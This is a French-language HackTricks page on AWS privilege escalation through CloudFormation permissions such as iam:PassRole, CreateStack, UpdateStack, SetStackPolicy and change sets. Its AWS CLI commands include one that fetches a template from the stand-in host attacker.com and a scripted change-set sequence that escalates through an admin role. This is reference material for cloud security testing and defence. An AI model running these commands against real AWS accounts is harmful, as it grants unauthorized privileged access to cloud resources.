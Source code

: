 # AWS - Élévation de privilèges Cloudformation

{% hint style="success" %}
Apprenez et pratiquez le piratage AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le piratage GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>
{% endhint %}

## cloudformation

Pour plus d'informations sur Cloudformation, consultez :

{% content-ref url="../../aws-services/aws-cloudformation-and-codestar-enum.md" %}
[aws-cloudformation-and-codestar-enum.md](../../aws-services/aws-cloudformation-and-codestar-enum.md)
{% endcontent-ref %}

### `iam:PassRole`, `cloudformation:CreateStack`

Un attaquant avec ces autorisations **peut élever ses privilèges** en créant une **pile CloudFormation** avec un modèle personnalisé, hébergé sur son serveur, pour **exécuter des actions sous les autorisations d'un rôle spécifié :**
```bash
aws cloudformation create-stack --stack-name <stack-name> \
--template-url http://attacker.com/attackers.template \
--role-arn <arn-role>
```
Sur la page suivante, vous trouverez un **exemple d'exploitation** avec la permission supplémentaire **`cloudformation:DescribeStacks`** :

{% content-ref url="iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md" %}
[iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md](iam-passrole-cloudformation-createstack-and-cloudformation-describestacks.md)
{% endcontent-ref %}

**Impact potentiel :** Élévation de privilèges vers le rôle de service cloudformation spécifié.

### `iam:PassRole`, (`cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`)

Dans ce cas, vous pouvez **abuser d'une pile cloudformation existante** pour la mettre à jour et escalader les privilèges comme dans le scénario précédent :
```bash
aws cloudformation update-stack \
--stack-name privesc \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::91029364722:role/CloudFormationAdmin2 \
--capabilities CAPABILITY_IAM \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Élévation de privilèges vers le rôle de service cloudformation spécifié.

### `cloudformation:UpdateStack` | `cloudformation:SetStackPolicy`

Si vous avez cette permission mais **pas `iam:PassRole`**, vous pouvez toujours **mettre à jour les piles** utilisées et abuser des **rôles IAM auxquels elles sont déjà attachées**. Consultez la section précédente pour un exemple d'exploitation (ne mentionnez simplement aucun rôle dans la mise à jour).

La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner la permission `UpdateStack`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Élévation de privilèges vers le rôle de service cloudformation déjà attaché.

### `iam:PassRole`,((`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

Un attaquant avec des autorisations pour **transmettre un rôle et créer et exécuter un jeu de modifications** peut **créer/mettre à jour une nouvelle pile cloudformation et abuser des rôles de service cloudformation** comme avec CreateStack ou UpdateStack.

L'exploitation suivante est une **variation de celle du** [**CreateStack**](./#iam-passrole-cloudformation-createstack) utilisant les **autorisations ChangeSet** pour créer une pile.
```bash
aws cloudformation create-change-set \
--stack-name privesc \
--change-set-name privesc \
--change-set-type CREATE \
--template-url https://privescbucket.s3.amazonaws.com/IAMCreateUserTemplate.json \
--role arn:aws:iam::947247140022:role/CloudFormationAdmin \
--capabilities CAPABILITY_IAM \
--region eu-west-1

echo "Waiting 2 mins to change the stack"
sleep 120

aws cloudformation execute-change-set \
--change-set-name privesc \
--stack-name privesc \
--region eu-west-1

echo "Waiting 2 mins to execute the stack"
sleep 120

aws cloudformation describe-stacks \
--stack-name privesc \
--region eu-west-1
```
La permission `cloudformation:SetStackPolicy` peut être utilisée pour **vous donner des autorisations `ChangeSet`** sur une pile et effectuer l'attaque.

**Impact potentiel :** Élévation de privilèges vers les rôles de service cloudformation.

### (`cloudformation:CreateChangeSet`, `cloudformation:ExecuteChangeSet`) | `cloudformation:SetStackPolicy`)

C'est similaire à la méthode précédente sans passer par les **rôles IAM**, vous pouvez simplement **abuser de ceux déjà attachés**, il suffit de modifier le paramètre :
```
--change-set-type UPDATE
```
**Impact potentiel :** Privesc vers le rôle de service cloudformation déjà attaché.

### `iam:PassRole`,(`cloudformation:CreateStackSet` | `cloudformation:UpdateStackSet`)

Un attaquant pourrait abuser de ces autorisations pour créer/mettre à jour des StackSets afin d'abuser des rôles cloudformation arbitraires.

**Impact potentiel :** Privesc vers les rôles de service cloudformation.

### `cloudformation:UpdateStackSet`

Un attaquant pourrait abuser de cette autorisation sans l'autorisation PassRole pour mettre à jour des StackSets afin d'abuser des rôles cloudformation attachés.

**Impact potentiel :** Privesc vers les rôles cloudformation attachés.

## Références

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

{% hint style="success" %}
Apprenez et pratiquez le Hacking AWS :<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**Formation HackTricks AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Apprenez et pratiquez le Hacking GCP : <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**Formation HackTricks GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenez HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop)!
* **Rejoignez** 💬 le **groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
